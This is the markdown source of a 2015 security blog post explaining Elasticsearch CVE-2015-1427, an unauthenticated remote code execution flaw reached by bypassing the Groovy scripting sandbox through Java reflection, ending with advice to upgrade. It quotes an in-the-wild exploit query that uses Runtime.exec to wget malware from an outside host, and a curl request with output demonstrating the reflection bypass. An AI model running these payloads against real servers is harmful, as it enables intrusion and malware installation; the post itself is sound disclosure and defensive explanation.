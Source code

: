 ```yaml
---
layout: post
title: "Remote Code Execution in Elasticsearch - CVE-2015-1427"
date: 2015-03-08 13:40
comments: true
published: true
categories:
- elasticsearch
- vulnerability
---
```

<img src="{{root_url}}/images/headers/elk_rce.png"/>
> TL;DR If you have an elasticsearch instance that is publicly available, upgrade to 1.4.3 or later **now**.

Elasticsearch (the "E" in ELK) is a full-text search engine that makes data aggregation and querying easy. It has an extensive JSON API that allows everything from searching to system management. This post will show how a new vulnerability, CVE-2015-1427, allows attackers to leverage features of this API to gain unauthenticated remote code execution (RCE).

> Much of the analysis discovering this vulnerability was originally found on a blog post [here](http://drops.wooyun.org/papers/5107) ([translated](https://translate.google.com/translate?hl=en&sl=zh-CN&tl=en&u=http%3A%2F%2Fdrops.wooyun.org%2Fpapers%2F5107)). This post aims to translate and provide more detail on the vulnerability.
<!--more-->
### This Isn't Elasticsearch's First Rodeo
One feature of the ```_search``` API endpoint is to allow users to [submit Groovy code](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html) in the search query itself. The server will then execute the code in a sandboxed environment, returning the result to the user. This way, the elasticsearch code can be used to execute... more code<sup>1</sup>

Allowing anybody to submit server-side code to get executed is a *dangerous* game to play. In fact, this isn't the first time Elasticsearch has been bitten by this feature. Elasticsearch pre-1.2 didn't have a sandbox *at all*, and allowed anyone to submit code to be executed. Since there are zero authentication controls built into elasticsearch, if the service is exposed to the Internet, anyone can own a server with a query like this:

```
{"query":
    {"filtered": {
        "query": {"match_all": {}}}},
        "script_fields": {"exp": {
            "script": "import java.util.*;import java.io.*;String str = \"\";BufferedReader br = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(\"wget -O /tmp/malware http://x.x.x.x/malware \").getInputStream()));StringBuilder sb = new StringBuilder();while((str=br.readLine())!=null){sb.append(str);sb.append(\"\r\n\");}sb.toString();"
    }}}
```

> Fun fact! This is an actual exploit attempt I've seen on my server.

This isn't anything new. In fact, there's a [Metasploit module](http://www.rapid7.com/db/modules/exploit/multi/elasticsearch/script_mvel_rce) that makes this easy.

Starting with version 1.3, Elasticsearch [allowed sending Groovy scripts](http://www.elasticsearch.org/blog/scripting/) in the query again. However, they added a sandbox to control what classes and functions can be executed.

Let's take a quick look at how the sandbox works to get a feel for how it can be exploited.

### How the Sandbox Works
The functions and classes that are allowed by the sandbox are found in [```GroovySandboxExpressionChecker.java ```](https://github.com/elasticsearch/elasticsearch/blob/master/src/main/java/org/elasticsearch/script/groovy/GroovySandboxExpressionChecker.java). Looking at the code, we notice the function ```isAuthorized```. This function takes in an expression and checks to see if it is allowed to be executed.

Without going through **everything** the sandbox does, here's the important part of the function:

```java
if (expression instanceof MethodCallExpression) {
    MethodCallExpression mce = (MethodCallExpression) expression;
    String methodName = mce.getMethodAsString();
    if (methodBlacklist.contains(methodName)) {
        return false;
    } else if (methodName == null && mce.getMethod() instanceof GStringExpression) {
        // We do not allow GStrings for method invocation, they are a security risk
        return false;
    }
    //snip
}
```

This is the condition that checks to see if our method call is allowed to be executed. There are two checks we need to bypass in order to make this happen:

```java
if (methodBlacklist.contains(methodName))
```

The ```methodBlacklist``` contains the following method calls that we can't use:

```java
public static String[] defaultMethodBlacklist = new String[]{
    "getClass",
    "wait",
    "notify",
    "notifyAll",
    "finalize"
};
```

Ok, so we can't use any of those. Next, we need to make sure that our method name isn't null, and we don't use a [```GStringExpression```](http://groovy.codehaus.org/api/org/codehaus/groovy/ast/expr/GStringExpression.html). No problem.

There's one more hurdle that we have to overcome. This sandbox also restricts the packages that can have methods called on them (from [```SecureASTCustomizer.java```](https://github.com/groovy/groovy-core/blob/0b2182bff2250150e69ccb988f367e709b4560de/src/main/org/codehaus/groovy/control/customizers/SecureASTCustomizer.java#L854)):

```java
if (receiversWhiteList != null && !receiversWhiteList.contains(typeName)) {
    throw new SecurityException("Method calls not allowed on [" + typeName + "]");
} else if (receiversBlackList != null && receiversBlackList.contains(typeName)) {
    throw new SecurityException("Method calls not allowed on [" + typeName + "]");
}
```

The whitelist for elasticsearch is found in the variable ```defaultReceiverWhitelist```:

```java
private final static String[] defaultReceiverWhitelist = new String [] {
    groovy.util.GroovyCollections.class.getName(),
    java.lang.Math.class.getName(),
    java.lang.Integer.class.getName(), "[I", "[[I", "[[[I",
    //snip
};
```

On the surface, this eliminates our ability to call any methods on interesting packages, such as ```java.lang.Runtime```, which could be used to execute system commands. However, there's a way we can bypass both the package whitelist and the method blacklist to execute our code. This is done through a tricky Java feature called [```reflection```](http://docs.oracle.com/javase/tutorial/reflect/).

### Bypassing the Sandbox with Reflection
Vulnerabilities can often be reverse-engineered by inspecting the patches since the previous release. The commit that we will look at is [here](https://github.com/elasticsearch/elasticsearch/commit/68c4a6201e6c889b272c1b64550237fe6d172b47). The changes in this commit give us some hints about how we can exploit the vulnerability:

<img src="{{root_url}}/images/blog/elk/rce.png"/>

This makes it pretty clear that we can probably do something with the ```.class``` and ```.forName()``` method calls. These methods, chained together, allow us to take one package class (such as one found in the whitelist) and use it to load a reference to a completely separate class (such as ```java.lang.Runtime```) via reflection.

So what does this look like?

Let's see if we can load the ```java.lang.Runtime``` package by using reflection off of the ```java.lang.Math``` package, which is in the whitelist of packages we can use:

```text
$ curl http://localhost:9200/_search?pretty -XPOST -d '{"script_fields": {"myscript": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\")"}}}'

{
  <snip>
  "hits" : {
    "total" : 8,
    "max_score" : 1.0,
    "hits" : [ {
      <snip>
      "fields" : {
        "myscript" : [ "class java.lang.Runtime" ]
      }
    }
}}
```

*Success!* We can see the result of our query returned an instance of the ```java.lang.Runtime``` class. We can use this instance to execute system commands on the server.

I won't provide a full proof-of-concept, but all the pieces are here. Using a mix of the first exploit shown above along with the way I've shown to get a reference to the ```java.lang.Runtime``` package, it is pretty straightforward to run whatever commands you want.

### Conclusion

This vulnerability was not heavily advertised, but it is absolutely critical. In fact, I had one of my own elasticsearch instances compromised this way, showing this vulnerability is heavily being exploited in the wild.

Elasticsearch recommends to only allow the software to be accessed locally, but there are a *ton* of publicly available ES instances. This is likely because the default configuration listens on ```0.0.0.0:9200```.

If you use elasticsearch, and haven't upgraded to 1.4.3 (or the latest 1.4.4), I recommend upgrading **immediately**.

As always, let me know if you have any questions or comments below!

Jordan ([@jw_sec](https://twitter.com/jw_sec))

<sup>1</sup> There's an Xzibit joke to be made here.
